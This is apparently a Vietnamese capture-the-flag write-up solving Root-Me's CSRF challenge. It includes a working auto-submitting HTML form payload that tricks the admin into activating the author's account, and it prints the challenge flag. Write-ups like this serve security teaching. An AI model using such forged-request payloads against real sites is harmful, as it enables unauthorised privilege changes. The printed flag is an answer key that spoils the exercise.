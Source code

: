 # CSRF - 0 protection
## Solution


Ban đầu challange cho chúng ta 1 form để đăng nhập như thế này.

![image](https://user-images.githubusercontent.com/86184794/161018385-0a8797ca-98b8-4043-bb4e-09c9930ed6fc.png)


Việc đầu tiên của em là vào đăng ký tài khoản.

![image](https://user-images.githubusercontent.com/86184794/161018525-0c042931-4c64-4cb8-baf3-b4dc6b273b0d.png)

Tài khoản: binh

Mật khẩu: 1

![image](https://user-images.githubusercontent.com/86184794/161018648-00e16e86-931e-491b-b42b-039beb82cbbb.png)


Khi đăng nhập vào thì xuất hiện một đường link điều hướng đến profile của em.

![image](https://user-images.githubusercontent.com/86184794/161018880-3f9659fd-5b1e-4fc9-bf4e-e7584f50b716.png)


Trong profile thì có 3 tab là Contact,Profile và Private. Hiện tại em đang ở tab profile nên có một form update profile.

![image](https://user-images.githubusercontent.com/86184794/161019147-aff9f00f-f831-408e-b2cb-0d460152e4c8.png)

Như khi em thử submit thì không được vì em không phải là admin.

![image](https://user-images.githubusercontent.com/86184794/161019348-4e5e56e3-7e2b-4937-b579-38a53121631c.png)

Khi vào tab Private thì xuất hiện tài khoản của em chưa được kích hoạt bới quản trị viên.


![image](https://user-images.githubusercontent.com/86184794/161019677-e2d1d10d-91ed-42fb-83ea-370d18e4504f.png)

Bên tab Contact thì em có thể submit một form được. Và form này em có thể khai thác được.

![image](https://user-images.githubusercontent.com/86184794/161020172-120cf87a-e2f8-47c0-a6fd-2ba3bc2066a3.png)

Quay trở lại form đăng nhập em thấy nút Status đã bị disable theo kinh nghiêm và cảm nhận của em khi chơi rất nhiều bài root me thì Status có thể là quyền admin. Nên em thử tìm cách kích hoạt nút Status lên thử.

![image](https://user-images.githubusercontent.com/86184794/161020706-bf8da84d-bfa2-41ce-8aad-a87ba3fac770.png)

Trong devtool thì em thấy có một form submit như thế này. Em thử xóa thuộc tính diasble đi rồi sau đó checked vào xong submit thì vẫn không được.

Do đó em nghĩ ra một ý tưởng là form submit này nó đưa đến server nên em copy cái form submit này em qua bên tab contact để nó chạy thử có gửi được đến server hay không.

```
<form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" id="form" method="post" enctype="multipart/form-data">
		<div class="form-group">
		<label>Username:</label>
		<input type="text" name="username" value="binh">
		</div>
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input type="checkbox" name="status" checked>
		</div>
		<br>	
		<button type="submit">Submit</button>
</form>
<script>document.getElementById("form").submit(); </script>
```

Trong form ở trên thì đường dẫn em sẽ submit đến tab profile với phương thức là post và nút Status  em đã chuyển thành checked có nghĩa là đã được kích hoạt.

![image](https://user-images.githubusercontent.com/86184794/161022139-30bcd2cd-1072-4da9-85d9-0e6686936a48.png)

Chờ một lúc thì em được kết quả như sau.


![image](https://user-images.githubusercontent.com/86184794/161022376-8ebf9c51-899e-47d3-b3a7-8a572f7155a9.png)

Flag: Csrf_Fr33style-L3v3l1!

